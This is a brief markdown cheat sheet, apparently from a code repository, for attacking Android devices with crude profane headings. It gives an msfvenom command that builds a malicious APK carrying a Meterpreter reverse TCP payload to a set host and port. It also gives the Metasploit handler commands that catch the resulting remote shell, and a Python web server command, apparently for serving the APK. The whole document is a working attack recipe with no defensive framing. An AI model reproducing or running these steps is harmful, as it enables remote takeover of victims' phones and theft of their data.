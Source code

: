 # Android Hackfuckin
## Meterpreter
`msfvenom --payload android/meterpreter_reverse_tcp LHOST=10.0.0.51 LPORT=443 R > rawdoggin_output.apk`

## Msfconsole
```
sudo msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload android/meterpreter_reverse_tcp
msf exploit(handler) > set lhost 10.0.0.51
msf exploit(handler) > set lport 443
msf exploit(handler) > exploit -j
```

## Python Shitfuckery
`python -m http.server 8787`